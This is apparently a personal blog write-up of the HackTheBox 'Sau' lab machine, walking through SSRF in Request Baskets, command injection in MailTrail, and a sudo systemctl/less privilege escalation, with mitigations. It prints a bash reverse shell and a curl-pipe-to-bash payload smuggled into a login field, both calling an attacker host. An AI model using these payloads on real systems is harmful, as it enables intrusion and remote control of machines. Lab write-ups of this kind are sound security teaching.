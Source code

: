 ```yaml
---
title: "HackTheBox - Sau"
author: Nasrallah
description: ""
date: 2024-01-05 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, ssrf, injection, command injection]
img_path: /assets/img/hackthebox/machines/sau
image:
    path: sau.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

## **Description:**

[Sau](https://app.hackthebox.com/machines/sau) from [HackTheBox](https://www.hackthebox.com), we find a website vulnerable to `ssrf` that we exploit to access a web app that's sitting behind a firewall, the web app is vulnerable to command injection giving us our foothold. For root we find a misconfigured sudo entry allowing us to drop a root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.224                                              
Host is up (0.19s latency).          
Not shown: 997 closed tcp ports (reset)                                                                                                                       
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                       
| ssh-hostkey:                                                                 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)                           
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)                          
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)                        
80/tcp    filtered http                                                        
55555/tcp open     unknown                                                     
| fingerprint-strings:                                                                                                                                        
|   FourOhFourRequest:                                                         
|     HTTP/1.0 400 Bad Request                                                 
|     Content-Type: text/plain; charset=utf-8                             
|     X-Content-Type-Options: nosniff                                          
|     Date: Thu, 20 Jul 2023 10:03:32 GMT                                 
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPReques
```

We found two open ports: 22 and 55555. port 80 is filtered.

### Web

Let's navigate to the web page on port 55555.

![a](1.png)

This is `Request Baskets` version 1.2.1, it allows us to inspect HTTP requests.

Searching on google for this version reveals it's vulnerable to a [Server Side Request Forgery](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3). That's why there is a filtered port.

Let's first create a basket.

![a](2.png)

Now we open it.

![a](3.png)

The website gave us a link to make requests to, and it will show us on this page the HTTP requests made.

Let's go to `http://10.10.11.224:55555/4gngypw`

>The random string will be different on each basket created.

![a](4.png)

We can see the headers of our request.

The `SSRF` vulnerability can be exploited using the `Forward URL` option in the settings:

![a](5.png)

Since port 80 is filtered let's set the `Forward URL` to `http://127.0.0.1/` and check the `Proxy Response` option.

![a](6.png)

Now if let's request the url `http://10.10.11.224:55555/4gngypw`

![a](7.png)

We've successfully got the page of the website on port 80.

It shows that it's running `MailTrail (v0.53)`.

After some research we find that this version is vulnerable to an [OS Command Injection](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) during the login process

The proof of concept provided for this vulnerability is the following:

```bash
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
```

## **Foothold**

We'll edit the command executed to a reverse shell.

First I'll host a bash script holding the following reverse shell:

```bash
bash -i >& /dev/tcp/10.10.17.90/9001 0>&1
```

The command I'll be executing will request this script and pips it's content to bash to get it executed and me receiving a shell.

```bash
curl 'http://10.10.11.224:55555/wswltbh/login' --data 'username=;`curl 10.10.17.90/shell.sh|bash`'
```

![a](8.png)

We got a shell as `puma`

## **Privilege Escalation**

Let's check our privileges:

```shell
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can check the status of the trail service.

![a](9.png)

One thing to notice here is the output is not printed fully and we're in a `less` interface, that's because our tty is not setup properly.

That was lucky for us, but if the sudo command printed the output normally without showing less, we can make our terminal smaller or change the stty setting with `stty rows 20 columns 50`.

It should also be mentioned that we need a full tty shell for this to run properly, so upgrade your shell if haven't already.

If go to GTFOBins we see that if we have a shell over `less` we can run `!/bin/bash` and get a root shell.

![a](10.png)

## **Prevention and Mitigation**

### SSRF

Update `Requests Basket` to the latest version.

## Command Injection

`Mail Trail` should be updated to the latest version.

## Systemctl

systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

Set `LESSSECURE` environment variable to `1`.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

## References

<https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3>

<https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/>

<https://bugzilla.redhat.com/show_bug.cgi?id=2175611>
